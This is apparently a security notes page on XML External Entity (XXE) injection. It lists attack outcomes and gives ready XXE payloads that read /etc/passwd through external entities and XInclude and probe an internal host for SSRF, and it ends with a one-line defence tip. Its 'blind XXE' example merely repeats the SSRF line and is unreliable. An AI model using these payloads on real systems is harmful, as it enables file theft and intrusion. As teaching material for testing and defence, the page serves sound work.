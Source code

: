 ```yaml
---
title: 'XML External Entity Injection (XXE)'
description: "Allows an attacker to interfere with an application's processing of XML data."
pubDate: 'Jul 08 2022'
heroImage: '/xxe.jpeg'
slug: vuln/xxe
---
```


### Information

The DTD (Document Type Definition) is used to validate the structure of an XML file and may contain references to external resources, such as files on the server system.

### How to Attack

- SSRF
- PHP Object Injection (through phar://)
- XSS/CSRF
- Local File Disclosure
- RCE
- Local Port Scanning‌

```html
<!-- Retrieve files -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>

<!-- SSRF attacks -->
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable_site.com/"> ]>

<!-- Blind XXE -->
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable_site.com/"> ]>

<!-- XInclude attacks -->

<!-- XInclude is a part of the XML specification that allows an XML document to be built from sub-documents -->

<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>

<!-- Modified content type -->
<!-- POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52 -->

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>

```

### How to protect

The application's XML parsing library supports potentially dangerous XML features that the application does not need, disable those thins.
